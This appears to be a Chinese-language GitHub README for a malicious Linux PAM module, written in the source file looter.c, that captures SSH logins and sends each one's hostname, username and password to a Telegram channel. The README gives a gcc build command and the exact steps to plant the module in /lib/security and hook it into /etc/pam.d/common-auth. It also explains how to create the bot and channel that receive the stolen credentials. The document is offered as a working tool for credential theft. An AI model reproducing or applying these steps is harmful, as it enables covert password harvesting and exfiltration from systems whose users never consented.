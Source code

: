 # 窃取主机SSH登录信息发送到Telegram频道中🤫

# 依赖
* gcc
* libcurl4-openssl-dev
* libpam0g-dev

# 配置
编辑 `looter.c` 主要修改2处：`Your_Bot_Token` 以及 `Your_Channel_Name`.

# 编译
```
gcc -Werror -Wall -fPIC -shared -Xlinker -x -o module.so looter.c -lcurl
```

# 使用
复制so到/lib/security/目录下【如果系统提示没有security这个目录，直接mkdir即可】
```
cp module.so /lib/security/
```
编辑/etc/pam.d/common-auth
```
vi /etc/pam.d/common-auth
```
在最底下新增如下两行
```
auth optional module.so
account optional module.so
```

## 如何获取Telegram Bot Token以及Channel Name？【手机版本演示】

#### 1.创建一个Telegram公共频道
1. 登录Telegram
2. 进入Chats标签页
3. 点击右上角的类似编辑的图标
4. 选择New Channel
5. 点击Create Channel
6. 后面相关信息自行填写即可
7. 完成Channel的创建

#### 2.通过BotFather创建一个Telegram BOT
1. 在搜索框搜索BotFather
2. 进入聊天界面
3. 在聊天输入框中选择/newbot
4. 接着按照提示创建bot即可
5. 看到返回“Done！Congratulations on your new bot”即表示完成bot的创建
6. 点击返回的类似t.me/aasxisobot的链接，接着点击下方的start
7. 复制第二行的token信息替换到c文件中Your_Bot_Token

#### 3.设置BOT为你频道的管理员
1. 进入第一步所创建的频道
2. 点击右上角的图标【进入频道主页】
3. 点击Administrators【进入管理员主页】
4. 点击Add Admin选择第二步创建的Bot，并且开启Add New Admins
5. 接着右上角的点击Done

结束，当有ssh登录该主机时候，Telegram频道将会收到登录信息【主机名、用户名、密码】。

🧐
